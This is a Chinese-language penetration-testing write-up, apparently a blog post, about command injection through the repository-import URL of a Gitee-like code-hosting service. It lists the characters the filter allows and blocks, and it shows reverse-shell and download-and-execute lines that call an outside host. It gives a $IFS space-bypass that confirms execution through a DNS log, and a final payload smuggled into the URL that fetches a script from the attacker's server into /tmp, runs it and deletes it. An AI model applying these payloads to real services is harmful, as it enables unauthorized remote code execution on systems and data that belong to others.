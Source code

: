 看起来这里是一个命令注入命令，以为直接反弹 shell 就结束了？ 不，本次渗透才刚刚开始。

这个漏洞发生的业务类似于 gitee.com ，新建 repo 的时候，可以选择 import 仓库，这个 import 的输入就是触发漏洞的地方。

但是，为了限制这个 URL 的合法性，仓库本身对这个 URL 就有诸多限制。经过多次尝试，我大概试出了如下规则。

允许的字符：
```
$
;
&
()
/
;
%
```
不允许的字符：
```
<>
{}
[]
|
\
^
""
空格
```

限制的字符很多，我们通常的弹 shell 等操作基本都限制了，如
```
curl x.x.x.x/evil.sh | sh
curl x.x.x.x/evil.sh > aaa.sh && bash aaa.sh
bash -i &> /dev/tcp/x.x.x.x/80 0>&1
```
类似这样的都不行。

我们先步步为营，用 dnslog 来确认一下命令执行，限制了空格可以用`$IFS`来绕过（还好$符号还能用）。

完整的 URL 为
```
https://github.com/qqq;curl$IFS$(whoami).qwewqwe.green-m.me;a.git
```
可以收到名字为`git` 的 dns 记录。确认了命令执行的漏洞存在。

### 绕过限制

想到既然限制这么多，多行命令全部通过前端传进去是不太可能了，也不能直接把 shell 脚本通过管道符传给 sh 运行，那我们可能只能通过写文件到本地来执行了。

构造 payload

```
https://github.com/qq;aaa=myvpsip/evil;curl$IFS$aaa$IFS-o/tmp/evil;bash$IFS/tmp/evil;rm$IFS/tmp/evil;test.git
```

分段拆开上面的 payload，方便看清楚实现：

```sh
aaa=myvpsip/evil

curl $aaa -o /tmp/evil

bash /tmp/evil

rm /tmp/evil
```
